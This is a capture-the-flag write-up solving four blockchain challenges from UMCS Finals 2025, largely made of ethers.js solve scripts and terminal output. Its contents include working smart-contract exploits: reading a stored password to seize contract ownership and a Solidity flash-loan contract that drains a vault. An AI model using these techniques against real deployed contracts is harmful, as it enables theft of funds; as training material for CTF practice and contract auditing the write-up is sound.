

# Writeup UMCS Finals 2025

🩸 First Blood on Bank Vaults 🩸

>solved all the challenges but for challenge 1, 2 and 3
>
>i forgot what's the flag due to i forgot to put it in my writeup
>
>and by the time i wrote this... the server is already down... sorry !

## Table of Contents

### Blockchain
1. [SecureShell](SecureShell)
2. [Mario Kart](#Mario-Kart)
3. [Bank Vaults](#Bank-Vault)
4. [A lot of knowledge](#A-lot-of-knowledge)

---

## Blockchain

### SecureShell
>Author: X3 Security

### Description
>Super secure shell :)
>
>http://116.203.176.73:4448/
>
>Attachment: Participants File


### Solution

after understanding how the challenge works, make a script with your LLM and modify it as you went through it

solve.js

```bash
const { ethers } = require("ethers");

const RPC_URL        = "http://116.203.176.73:4448/8cfa1eb9-a693-40c9-a4a7-87150f1b87b3";
const PRIVKEY        = "c1506e7b002dcd41ceb918eea28222d72e6130b8baa18c3160cafa0a89e454e6";
const SETUP_ADDRESS  = "0x6B8344A64d065292597D62eb6520c41223dddE3a";

async function main() {
  // 1. Connect provider & wallet
  const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
  const wallet   = new ethers.Wallet(PRIVKEY, provider);

  // 2. Read the inner SecureShell address
  const setupAbi = [
    "function secureShell() view returns (address)",
    "function isSolved() view returns (bool)"
  ];
  const setup = new ethers.Contract(SETUP_ADDRESS, setupAbi, wallet);
  const shellAddr = await setup.secureShell();
  console.log("SecureShell deployed at:", shellAddr);

  // 3. Read secretPassword from storage slot 1
  const rawSlot1 = await provider.getStorageAt(shellAddr, 1);
  const secretPassword = ethers.BigNumber.from(rawSlot1);
  console.log("Leaked password:", secretPassword.toString());

  // 4. Call changeOwner(secretPassword, your address)
  const shellAbi = [
    "function changeOwner(uint256 _password, address _newOwner)",
    "function owner() view returns (address)"
  ];
  const shell = new ethers.Contract(shellAddr, shellAbi, wallet);

  const tx = await shell.changeOwner(secretPassword, wallet.address);
  console.log("Submitting changeOwner tx:", tx.hash);
  await tx.wait();

  // 5. Confirm takeover
  const newOwner = await shell.owner();
  console.log("New owner is:", newOwner);

  // 6. Verify isSolved()
  const solved = await setup.isSolved();
  console.log("Challenge solved?", solved);
}

main().catch(err => {
  console.error(err);
  process.exit(1);
});
```

ran it on terminal and got this

```bash
PS C:\Users\-\-\Desktop\ctf> node solve.js
SecureShell deployed at: 0xb5683B85A9e9Fb0b11f232c8A19cf1aBc28B4F10
Leaked password: 13377331
Submitting changeOwner tx: 0xb71277fbdbc681ae90611796782b0d13939f1df55438485ecf1cf41b674a51a1
New owner is: 0xAA7ae1fA9ecA00463700747064bC3C0c907a786F
Challenge solved? true
```

go back to the website and you'll get the flag

Flag:
```bash
UMCS{flag}
```

---

### Mario Kart
>Author: X3 Security

### Description
>Vrooom vroom Mario !!!
>
>http://116.203.176.73:4447/
>
>Attachment: mario_player_file


### Solution

after understanding how the challenge works, make a script with your LLM and modify it as you went through it

solve.js

```bash
// solve.js
const ethers = require("ethers");

// — hard-code your values here to eliminate the env error —
const RPC_URL = "http://116.203.176.73:4447/e6ac63a9-6e31-4a53-a176-c4bbe1cd3e56";
const PRIVKEY = "6abcea80b55f8d0764df82aa9a5e82144ab7548cb48615b36a4397810ef63e49";
const SETUP   = "0xb613AF8832F9fA98B314C6faB8Ad8DbD76c589DA";

async function main() {
  const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
  const wallet   = new ethers.Wallet(PRIVKEY, provider);

  const setup = new ethers.Contract(
    SETUP,
    [
      "function getMainContract() view returns (address)",
      "function isSolved()      view returns (bool)"
    ],
    wallet
  );
  const mkAddr = await setup.getMainContract();

  const mario = new ethers.Contract(
    mkAddr,
    [
      "function joinRace(string) payable",
      "function startRace()",
      "function boost()",
      "function getRacerPosition(address) view returns (uint)"
    ],
    wallet
  );

  // join + start
  await mario.joinRace("VSCodeHero", { value: ethers.utils.parseEther("1") });
  await mario.startRace();

  // loop boost until finish
  let pos = 0;
  while (pos < 1000) {
    const tx = await mario.boost();
    await tx.wait();
    pos = (await mario.getRacerPosition(wallet.address)).toNumber();
    console.log("Position:", pos);
  }

  console.log("Solved?", await setup.isSolved());
}

main().catch(console.error);
```

ran it on terminal and got this

```bash
PS C:\Users\-\-\Desktop\ctf> node solve.js
...
Position: 975
Position: 990
Position: 1005
Solved? True
```

go back to the website and you'll get the flag

Flag:
```bash
UMCS{flag}
```

---

### Bank Vaults
>Author: X3 Security

### Description
>Money money money !!
>
>http://116.203.176.73:4445/
>
>Attachment: Participants file


### Solution

after understanding how the challenge works, make a script with your LLM and modify it as you went through it

solve.js

```bash
// solve.js
const { ethers } = require("ethers");
const solc       = require("solc");

async function main() {
  // ───── YOUR CONFIG ───────────────────────────────────────────────
  const RPC        = "http://116.203.176.73:4445/4f1a3cbd-1672-47be-b1b7-e71ca22edd4c";
  const PK         = "ae526d478db259461b021ebdb6785f108c2b641c5b3e384bba90f5ad03dce4be";
  const SETUP_ADDR = "0xA845Cc7eE457EBc5Fd115140e930191da2ED82Aa";
  // ────────────────────────────────────────────────────────────────

  const provider = new ethers.providers.JsonRpcProvider(RPC);
  const wallet   = new ethers.Wallet(PK, provider);

  // 1) fetch the real vault address AND prepare isSolved() on setup
  const setup = new ethers.Contract(
    SETUP_ADDR,
    [
      "function challengeInstance() view returns (address)",
      "function isSolved() view returns (bool)"
    ],
    wallet
  );
  const vaultAddr = await setup.challengeInstance();
  console.log("🔑 BankVaults @", vaultAddr);

  // 2) compile the exploit contract
  const source = `
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.25;

  interface IBankVaults {
      function stake(address receiver) external payable returns (uint256);
      function flashLoan(uint256 amount, address receiver, uint256 timelock) external;
      function withdraw(uint256 assets, address receiver, address owner) external returns (uint256);
  }

  contract FlashExploit {
      IBankVaults public vault;
      address     public setup;
      address     public owner;

      constructor(address _vault, address _setup) payable {
          vault  = IBankVaults(_vault);
          setup  = _setup;
          owner  = msg.sender;
      }

      function start() external {
          // become a staker
          vault.stake{value: 1}(address(this));

          // how much to loan?
          uint bal = address(vault).balance;

          // flash-loan to us
          vault.flashLoan(bal, address(this), block.timestamp + 2 * 365 days);

          // now balances[setup] == bal, so drain:
          vault.withdraw(bal, owner, setup);
      }

      function executeFlashLoan(uint256 amount) external {
          // restake on behalf of setup
          vault.stake{value: amount}(setup);
      }

      receive() external payable {}
  }
  `;

  const input = {
    language: "Solidity",
    sources: { "FlashExploit.sol": { content: source } },
    settings: {
      outputSelection: { "*": { "*": ["abi", "evm.bytecode.object"] } }
    }
  };
  const output   = JSON.parse(solc.compile(JSON.stringify(input)));
  const artifact = output.contracts["FlashExploit.sol"]["FlashExploit"];
  const abi      = artifact.abi;
  const bytecode = artifact.evm.bytecode.object;

  // 3) deploy it (with 1 wei seed to flip isStaker)
  const factory = new ethers.ContractFactory(abi, bytecode, wallet);
  console.log("🛠 Deploying exploit contract...");
  const exploit = await factory.deploy(vaultAddr, SETUP_ADDR, { value: 1 });
  await exploit.deployed();
  console.log("Exploit", exploit.address);

  // 4) run the exploit
  console.log("Call start()…");
  let tx = await exploit.start({ gasLimit: 1_000_000 });
  await tx.wait();

  // 5) verify on the Setup contract!
  console.log(" isSolved?", await setup.isSolved());
}

main().catch(err => {
  console.error(err);
  process.exit(1);
});
```

ran it on terminal and got this

```bash
PS C:\Users\-\-\Desktop\ctf> node solve.js
🔑 BankVaults @ 0x14AEB54fcC20e0E52Eb2e15c1495872D98004c87
🛠 Deploying exploit contract...
🚀 Exploit @ 0x92b82DBFCCDcb7514068c9b903567509d8caD413
▶️  Calling start()…
🎯 isSolved? True
```

go back to the website and you'll get the flag

Flag:
```bash
UMCS{flag}
```

---

### A lot of knowlegde
>Author: X3 Security

### Description
>Whatever was learnt until now forget it, no knowledge is required.
>
>https://sepolia.scrollscan.com/address/0xB980702A8C8D32bFOF9381AcCFA271779132f1b2

### Solution

>Helpful Writeup For This Challenge
>https://infosecwriteups.com/tcp1p-ctf-blockchain-callenge-writeup-94b7ebe1464c

upon opening the website i guess it's a challlenge where we need to find the flag in the testnet
Explore this address on sepoila network to find a flag. one of that transaction contain flag that was hide on the input data.


and in the input data you'll find a decoded text so just decode it and you'll get the flag


Flag:
```bash
umcs{ZK_i3_s3cr3tly_3asy}
```
